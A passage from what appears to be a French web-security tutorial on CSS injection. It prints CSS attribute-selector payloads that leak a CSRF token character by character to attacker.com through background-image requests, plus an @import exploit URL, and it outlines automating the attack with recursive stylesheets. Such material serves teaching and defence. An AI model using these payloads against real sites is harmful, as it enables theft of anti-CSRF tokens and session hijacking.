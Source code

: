 {% code overflow="wrap" %}
```css
input[name=csrf-token][value^=ca]~* {
  background-image:url(https://attacker.com/?leak=ca);
}

input[name=csrf-token][value^=cb]~* {
  background-image:url(https://attacker.com/?leak=cb);
}

input[name=csrf-token][value^=cc]~* {
  background-image:url(https://attacker.com/?leak=cc);
}

...

input[name=csrf-token][value^=cz]~* {
  background-image:url(https://attacker.com/?leak=cz);
}
```
{% endcode %}

{% code overflow="wrap" %}
```
https://vulnerable.com/regle-import.php?css=@import%20url(https://attacker.com/style-second-char.css)
```
{% endcode %}

Il n'y a en fait pas réellement de différence avec la première méthode, excepté que l'attaquant n'est plus contraint par la taille de l'URL.

{% hint style="info" %}
Avec la première méthode, le paramètre `GET` contenait toutes les instructions CSS permettant de connaitre le caractère ciblé. L'URL pouvait donc parfois dépasser la taille autorisée et, dans ce cas, nécessitait de découper la payload en plus petites parties.
{% endhint %}

L'intérêt réel de cette mécanique devient surtout visible lors de son automatisation.

### Automatisation de l'exploitation utilisant la règle @import

Le principe de l'automatisation de l'exploitation est le suivant :&#x20;

1. L'attaquant va soumettre une URL à sa victime (comme c'est déjà le cas pour l'exploitation manuelle)
2. L'appel va entrainer la génération d'une feuille CSS à la volée par le serveur de l'attaquant de la façon suivante :&#x20;
   1. un import récursif
   2. des sélecteurs d'attribut CSS permettant de faire fuiter un des caractères de l'information
   3. un sélecteur d'attribut CSS prenant en compte tous les caractères connus par l'attaquant afin de savoir quand stopper l'attaque

Soit le diagramme suivant (se répétant jusqu'à ce que la totalité du jeton soit récupéré) :&#x20;
